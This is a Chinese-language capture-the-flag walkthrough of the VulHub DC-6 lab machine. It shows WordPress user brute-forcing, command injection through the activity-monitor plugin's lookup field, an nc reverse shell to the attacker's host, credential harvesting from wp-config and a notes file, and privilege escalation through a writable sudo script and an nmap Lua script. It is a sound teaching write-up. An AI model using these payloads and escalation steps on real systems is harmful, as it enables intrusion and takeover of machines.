# VulHub DC-6

## 信息收集

### 内网扫描

```bash
arp-scan 192.168.20.0/24
```

得到目标IP为`192.168.20.15`

### 端口扫描

```bash
nmap --min-rate 5000 -T4 -p- 192.168.20.15
```



#### 详细扫描

```bash
nmap -sCV -O --min-rate 5000 -T4 -p22,80 192.168.20.15
```



### 目录扫描

```bash
dirsearch -u http://192.168.20.15
```




### CMSMap

```bash
python cmsmap.py -u http://wordy -f W -F -noedb -d
```


得到用户列表为：
```
 Graham Bond
 Jens Dagmeister
 Mark Jones
 Sarah Balin
 admin
 graham
 jens
 mark
 sarah
```

作者提供字典为：

```bash
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords
```



#### brute force

```bash
python cmsmap.py -u http://wordy -u users -p passwords
```

得到凭证为`mark`/`helpdesk01`



## RCE

wp部署activity-monitor插件,其中tools部分的一句话值得注意



可以推测lookup功能可以与服务器进行交互,可以通过`;`分隔符执行多个命令

```text
127.0.0.1;ls
```



构造反弹shell

```text
127.0.0.1;nc -e /bin/bash 192.168.20.3 4444
```



## www-data

### mysql

在`wp-config.php`中得到mysql凭证

`wpdbuser`/`meErKatZ`



得到wp_users表中的用户信息
```bash
select * from wp_users;                                                                                                                                     
+----+------------+------------------------------------+---------------+-----------------------------+----------+---------------------+-----------------------------------------------+-------------+-----------------+                                                                                                 
| ID | user_login | user_pass                          | user_nicename | user_email                  | user_url | user_registered     | user_activation_key                           | user_status | display_name    |                                                                                                 
+----+------------+------------------------------------+---------------+-----------------------------+----------+---------------------+-----------------------------------------------+-------------+-----------------+                                                                                                 
|  1 | admin      | $P$BDhiv9Y.kOYzAN8XmDbzG00hpbb2LA1 | admin         | blah@blahblahblah1.net.au   |          | 2019-04-24 12:52:10 |                                               |           0 | admin           |                                                                                                 
|  2 | graham     | $P$B/mSJ8xC4iPJAbCzbRXKilHMbSoFE41 | graham        | graham@blahblahblah1.net.au |          | 2019-04-24 12:54:57 |                                               |           0 | Graham Bond     |
|  3 | mark       | $P$BdDI8ehZKO5B/cJS8H0j1hU1J9t810/ | mark          | mark@blahblahblah1.net.au   |          | 2019-04-24 12:55:39 |                                               |           0 | Mark Jones      |
|  4 | sarah      | $P$BEDLXtO6PUnSiB6lVaYkqUIMO/qx.3/ | sarah         | sarah@blahblahblah1.net.au  |          | 2019-04-24 12:56:10 |                                               |           0 | Sarah Balin     |
|  5 | jens       | $P$B//75HFVPBwqsUTvkBcHA8i4DUJ7Ru0 | jens          | jens@blahblahblah1.net.au   |          | 2019-04-24 13:04:40 | 1556111080:$P$B5/.DwEMzMFh3bvoGjPgnFO0Qtd3p./ |           0 | Jens Dagmeister |
+----+------------+------------------------------------+---------------+-----------------------------+----------+---------------------+-----------------------------------------------+-------------+-----------------+
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

john破解失败



### linpeas

发现jens家目录存在`backup.sh`文件,mark家目录存在`things-to-do.txt`文件



`backup.sh`无利用点



`things-to-do.txt`暴露graham的凭证`graham`/`GSo7isUM1D4`



## graham

```bash
ssh graham@192.168.20.15
GSo7isUM1D4
```



### sudo

graham可以执行以`jens`身份执行`backup.sh`脚本,并且graham位于`devs`组内可以修改`backup.sh`脚本



修改`backup.sh`脚本为:

```bash
#!/bin/bash
bash -p
```

执行`backup.sh`脚本,即可获得jens权限

```bash
sudo -u jens /home/jens/backup.sh
```



jens可以无密码以`root`权限执行`/usr/bin/nmap`命令




```bash
# 恶意script
echo 'os.execute("/bin/bash")' > shell
# 执行nmap命令
sudo nmap --script=shell
```

